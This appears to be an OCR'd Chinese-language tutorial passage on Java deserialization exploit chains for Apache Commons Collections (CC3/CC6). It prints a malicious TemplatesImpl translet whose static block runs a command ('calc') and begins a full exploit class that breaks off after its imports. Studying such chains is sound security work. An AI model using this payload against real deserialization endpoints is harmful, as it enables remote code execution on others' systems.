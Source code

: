### EXP(CC3Templateslmpl):

```bash
Demo.java
package EXP;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Demo extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
           e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后我们再利用 CC1 的链将前半段链子补全得到最后 CC6 的 EXP：

```bash
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
```